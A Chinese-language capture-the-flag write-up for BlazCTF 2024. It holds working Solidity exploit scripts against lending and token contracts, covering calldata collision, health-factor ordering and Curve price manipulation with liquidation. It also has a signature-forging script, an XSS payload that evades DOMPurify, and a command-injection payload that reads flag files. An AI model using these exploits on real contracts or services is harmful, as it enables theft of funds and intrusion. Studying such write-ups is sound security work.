




# blazctf by 只是心有不甘

[toc]

这次和`只是心有不甘`在 Fuzzland 组织的 BlazCTF 2024 得到了第十三名。记一下我解出的/大量参与的题目

## doju

sellTokens的calldata可以conflicts到其他函数上。

爆一个地址以c47FcC04结尾，私钥为0x39219b428d7d21216ff07c8e1f61cd84b133b763854600ac5c48a6b402a43fee

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.20;


import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
import {console2} from "forge-std/console2.sol";
import {Challenge} from "../src/Challenge.sol";
import {Doju} from "../src/Doju.sol";


contract Solve is Script {

    address challenge = address(0x21474f7350Ea47e17229ed1a27B43D17992A8777);
    address doju = address(0xC47fcC04762b188c3C5D1D01aBb279e21be4d6E9);

    function run() external {
        vm.startBroadcast();
        // bytes memory data = abi.encodePacked(uint256(0x7a4068dd0000000000000000000000000000000000c0ffeef000000000000000), address(0xC47fcC04762b188c3C5D1D01aBb279e21be4d6E9), uint256(1), address(0xaE6f4aE4C4a600bFc5717332E4d5F1CB1D2ABDfE), uint256(1));
        Doju(payable(doju)).sellTokens(uint256(0), doju, uint256(0xa9059cbb00000000000000000000000017F8A81Cf998b92B8A525E672AfC16B7));
        Doju(payable(doju)).sellTokens(uint256(0), doju, uint256(0xa9059cbb00000000000000000000000017F8A81Cf998b92B8A525E672AfC16B7));
        console.log(Doju(payable(doju)).balanceOf(0x17F8A81Cf998b92B8A525E672AfC16B7c47FcC04));
        address(0x17F8A81Cf998b92B8A525E672AfC16B7c47FcC04).call{value: 1 ether}("");
        vm.stopBroadcast();
        vm.startBroadcast(0x39219b428d7d21216ff07c8e1f61cd84b133b763854600ac5c48a6b402a43fee);
        Doju(payable(doju)).transfer(address(0xc0ffee), Doju(payable(doju)).balanceOf(0x17F8A81Cf998b92B8A525E672AfC16B7c47FcC04));
        console.log(Doju(payable(doju)).balanceOf(address(0xc0ffee)));
        console.log(type(uint256).max);
    }

}
```


## Tonyallet

`/post?id=`有一个DOMPurify latest，但是只有homepage可以xss

style + href应该可以改变界面位置，抢占goBack的位置使bot点击。但即使跳转回了也没办法执行，因为homepage的xss是交互式的DOM base。

通过审计tg的js，发现其内部initParams可以改部分内容
```javascript=tg.js
webAppInitData = initParams.tgWebAppData;
```
如果跳转附带hash即可覆盖locaStorage。

然后需要抓个自己的auth包，复制参数。

```
https://tonyallet-us.ctf.so/?#tgWebAppData=<urlencodeComponent(data)>
```
由于我的 tg username 含 unicode导致了js的报错，遂修改。

在DOMPurify的限制下插入链接a元素，然后用CSS把他抬到界面顶部使机器人点击。

```htmlbars
</p><div><a href='/#tgWebAppData<urlencodeComponent(data)>' style='font-size:50px;padding: 20px;position: absolute;top: 0;'>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa</a></div><p>
```
claim flag...



## Tonylend

https://vscode.blockscan.com/ethereum/0x02950460e2b9529d0e00284a5fa2d7bdf3fa4d72

实际上可以claim到1e22的USDE和1e10的USDC，他们初始状态是等值的，也就是可以兑到2e22的USDE，还差1k多ether，可以考虑价格操纵（实际上是revenge的解法）

`withdraw`先做的`calculateHealthFactor`才修改状态机，导致信用可以低于PRECISE。

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.20;


import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
import {console2} from "forge-std/console2.sol";
import "../src/TonyLend.sol";
import {Challenge} from "../src/Challenge.sol";


contract Solve is Script {

    address challenge = address(0x72998f0cffFe9Bf0fC7465188aCF3c5a8C77B616);
    address tonyLend = address(0x73e590a8309C7FC79D9eBA47A5C0773F2c233D6b);
    address usde = address(0x34FeD369D3EE0a030a0Bb9812634dd39fF739B80);
    address usdc = address(0x842CD61BF1078a03E98fC9fd563069440aF20de1);

    address player = address(0x6Fd418eD0a94f11d8678c7Ff72E92947A5a7fEf8);

    function run () external {
        vm.startBroadcast();
        Challenge(challenge).claimDust();
        show();
        MintableERC20(usde).approve(tonyLend, 1e22);
        TonyLend(tonyLend).deposit(0, 1e22);
        MintableERC20(usdc).approve(tonyLend, 1e10);
        TonyLend(tonyLend).deposit(1, 1e10);
        TonyLend(tonyLend).borrow(0, 1.1926e22);
        TonyLend(tonyLend).withdraw(0, 1e22);
        show();
        MintableERC20(usde).transfer(address(0xc0ffee), 2.1926e22);
        console.log("isSolved?", Challenge(challenge).isSolved());
    }

    function show() internal {
        console.log("USDE", MintableERC20(usde).balanceOf(player));
        console.log("USDC", MintableERC20(usdc).balanceOf(player));
    }
}
```


但其实liquidate的逻辑也有bug。不过如果没有这个问题也无法执行liquidate。

## Cyber Cartel

看起来改k多签几个就行

```python
import hashlib
import hmac
from eth_utils import big_endian_to_int
from Crypto.Util.number import long_to_bytes
from web3 import (
    Web3,
    Account
)
from eth_keys.constants import (
    SECPK1_N as N,
    SECPK1_G as G
)
from eth_keys.backends.native.jacobian import (
    inv,
    fast_multiply
)


def deterministic_generate_k(msg_hash: bytes,
                             private_key_bytes: bytes) -> int:
    v_0 = b'\x01' * 32
    k_0 = b'\x00' * 32

    k_1 = hmac.new(k_0, v_0 + b'\x00' + private_key_bytes + msg_hash, hashlib.sha256).digest()
    v_1 = hmac.new(k_1, v_0, hashlib.sha256).digest()
    k_2 = hmac.new(k_1, v_1 + b'\x01' + private_key_bytes + msg_hash, hashlib.sha256).digest()
    v_2 = hmac.new(k_2, v_1, hashlib.sha256).digest()

    kb = hmac.new(k_2, v_2, hashlib.sha256).digest()
    k = big_endian_to_int(kb)
    return k


def ecdsa_sign(msg_hash: bytes,
               private_key: bytes,
               deterministic: bool = True):
    assert len(msg_hash) == 32, "length of msg_hash must == 32"

    if not isinstance(private_key, bytes):
        private_key = HexBytes(private_key)
    z = big_endian_to_int(msg_hash)
    if deterministic:
        k = deterministic_generate_k(msg_hash, private_key)
        # print(f"k: {k}, G: {G}, N: {N}")
    else:
        k = 1 + __import__('secrets').randbelow(N-1)

    r, y = fast_multiply(G, k)
    s_raw = inv(k, N) * (z + r * big_endian_to_int(private_key)) % N

    v = 27 + ((y % 2) ^ (0 if s_raw * 2 < N else 1))
    s = s_raw if s_raw * 2 < N else N - s_raw

    return v, r, s

def ecdsa_recover(msg_hash: bytes,
                  vrs):
    return Account._recover_hash(msg_hash, vrs = (vrs[0] - 27, vrs[1], vrs[2]))


sign_data = b'a'
private_key = long_to_bytes(0xa7c3cc196ea8a05f49d06121e12299fb686b7b477ec0b048e8120fb5ac86d167)
# hashed = Web3.keccak(sign_data)
hashed = long_to_bytes(0x67d0abb821094e56ca8ceed11f91bf5a761528cd11969fbaacaf141d4b7858fd)

(v, r, s) = ecdsa_sign(hashed, private_key, deterministic=False)
print("message_hash =", hashed.hex())
print("r =", hex(r))
print("s =", hex(s))
print("v =", hex(v))
print("signature:", "0x"+long_to_bytes(r).hex()+long_to_bytes(s).hex()+long_to_bytes(v).hex())
print("signer:", ecdsa_recover(hashed, (v, r, s)))

```


```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.20;


import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
import {console2} from "forge-std/console2.sol";
import "../src/CyberCartel.sol";


contract Solve is Script {

    address bodyGuard = address(0x0fa51380834a7A7fC9799F41bd10cE18189783f4);
    address treasury = address(0x12D49f0179cA93c34cA57916C6b30E72B2b9D398);
    bytes constant DIGEST_SEED = hex"80840397b652018080";
    address player = address(0x09243662560a562F51aa10eE9C967FAd03663683);


    function hashProposal(BodyGuard.Proposal memory proposal) public view returns (bytes32) {
        return keccak256(
            abi.encodePacked(proposal.expiredAt, proposal.gas, proposal.data, proposal.nonce, treasury, DIGEST_SEED)
        );
    }

    function run () external {
        vm.startBroadcast();
        bytes memory cdata = abi.encodeWithSignature("gistCartelDismiss()");
        BodyGuard.Proposal memory p = BodyGuard.Proposal(type(uint32).max, type(uint24).max, type(uint8).max, cdata);
        console2.logBytes32(hashProposal(p));
        bytes[] memory signaturesSortedBySigners = new bytes[](2);
        signaturesSortedBySigners[0] = abi.encodePacked(
            bytes32(0x23987afb25911dc6accb787901bc4e05f49b63e869deabaaac99e2273795b7f0),
            bytes32(0x4c9b8f0bac4d361297bc39a2d93f32b9f34febcfa450004ec6fe3f145cdf6ce1),
            bytes1(0x1b)
        );
        console2.logBytes32(keccak256(signaturesSortedBySigners[0]));
        signaturesSortedBySigners[1] = abi.encodePacked(
            bytes32(0x04de52f5ba806bd67c698966292b3faa33a5bee386d0357c7529969ecbd0f762),
            bytes32(0x6b5e0371aba50013024e334fa459432d80450d58d215a30f58436c971e74faed),
            bytes1(0x1c)
        );
        console2.logBytes32(keccak256(signaturesSortedBySigners[1]));
        BodyGuard(bodyGuard).propose(p, signaturesSortedBySigners);
        console.log("TREASURY BALANCE", address(treasury).balance);
        CartelTreasury(payable(treasury)).doom();
        console.log("TREASURY BALANCE", address(treasury).balance);
    }
}
```


## Tonylend (No Longer Audited by CertiK)

直接把withdraw删了是，repay也删了，修改的地方只有borrow的信用下界高了5%。



应该要在curvePool上操纵价格，然后0资产清算，无限制borrow。

0资产清算要`borrowerAccount.deposited[_collateralAssetId]`为0，
假设deposit USDE，borrow USDC，那为了满足清算条件，USDC的price就要比借出时高5%。


https://web.archive.org/web/20240221012029/https://docs.curve.fi/stableswap-exchange/stableswap-ng/pools/plainpool/#remove_liquidity_one_coin



要卡时间才会更新price
```soldidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.20;


import {Script} from "forge-std/Script.sol";
import {console} from "forge-std/console.sol";
import {console2} from "forge-std/console2.sol";
import "../src/TonyLend.sol";
import {Challenge} from "../src/Challenge.sol";


contract Solve1 is Script {
    address player = address(0xf8fF93B10f74e7DC872bb6C5c66aa3B69b4933cC);
    address helper = address(0xe24C5c44a7c4E75d5E2e461C35d863db0385E3c9);
    address challenge = address(0xA731f067351d474Ab9Ba28d679EAb3396Ba9EA8a);
    function run () external {
        address tonyLend = address(Challenge(challenge).tonyLend());
        address curvePool = address(Challenge(challenge).curvePool());
        address usde = address(Challenge(challenge).usde());
        address usdc = address(Challenge(challenge).usdc());
        console.log("USDE", usde);
        console.log("USDC", usdc);

        vm.startBroadcast(0xa7aa8c63069942c63af977516df0a918f0c62a1aa54fa4975d10b55464fd1651);
        MintableERC20(usde).approve(curvePool, type(uint256).max);
        MintableERC20(usdc).approve(curvePool, type(uint256).max);
        MintableERC20(usde).approve(tonyLend, type(uint256).max);
        MintableERC20(usdc).approve(tonyLend, type(uint256).max);
        vm.stopBroadcast();

            
        vm.startBroadcast(0xa7aa8c63069942c63af977516df0a918f0c62a1aa54fa4975d10b55464fd1651);
        Challenge(challenge).claimDust();
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1e15;
        amounts[1] = 0;
        ICurve(curvePool).add_liquidity(amounts, 1);
        
        // deposit and borrow
        TonyLend(tonyLend).deposit(0, 9.99e21);
        TonyLend(tonyLend).borrow(0, 4.5e21);
        TonyLend(tonyLend).borrow(1, 5e9);

        // remove_liquidity_imbalance
        uint256[] memory amount = new uint256[](2);
        amount[0] = uint256(0);
        amount[1] = uint256(2e2);
        ICurve(curvePool).remove_liquidity_imbalance(amount, type(uint256).max);
        vm.stopBroadcast();

        vm.warp(block.timestamp+300);
        console.log("USDC after price", TonyLend(tonyLend).getAssetPrice(uint256(1)));

        // liquidate
        vm.startBroadcast(0xa7aa8c63069942c63af977516df0a918f0c62a1aa54fa4975d10b55464fd1651);
        payable(helper).transfer(1 ether);
        vm.stopBroadcast();
        vm.startBroadcast(0xb5cdb93a84c3a93e4f72dbef3b5dc836154c7c7a1ef251d59352619f25b42bee);
        TonyLend(tonyLend).liquidate(player, 0, type(uint256).max, 1);

        // re borrow
        vm.stopBroadcast();
        vm.startBroadcast(0xa7aa8c63069942c63af977516df0a918f0c62a1aa54fa4975d10b55464fd1651);
        TonyLend(tonyLend).borrow(0, 3e21);
        console.log(MintableERC20(usde).balanceOf(player));
        console.log(MintableERC20(usdc).balanceOf(player));

        // swap USDC to USDE
        uint256 cAmount = MintableERC20(usdc).balanceOf(player);
        
        ICurve(curvePool).exchange(1, 0, cAmount, 0);
        console.log(MintableERC20(usde).balanceOf(player));
        console.log(MintableERC20(usdc).balanceOf(player));
        MintableERC20(usde).transfer(address(0xc0ffee), MintableERC20(usde).balanceOf(player));
        console.log(MintableERC20(usde).balanceOf(address(0xc0ffee)));

    }

}
```
本地通了、远程和forge斗智斗勇

拉了下界，现在 Δtimestamp ∈ [100, 300] 都可以打

forge越跑得有点离开我的预期，开个计时器在旁边打出来了

我为这题写了更详细的题解https://gist.github.com/gtg2619/b72d5a9ac8d46c955d044b9d0b3484ad

## Chisel as a Service 
利用/tmp/chisel-tmp.sol 写入命令 
修改EDITOR为bash 触发执行


```
params = {
    'code':
"""
//; cat /flag*
address vm = address(uint160(uint256(keccak256("hevm cheat code"))));
vm.call(abi.encodeWithSignature("setEnv(string,string)", "EDITOR", "bash"));
!edit
""",
}

```


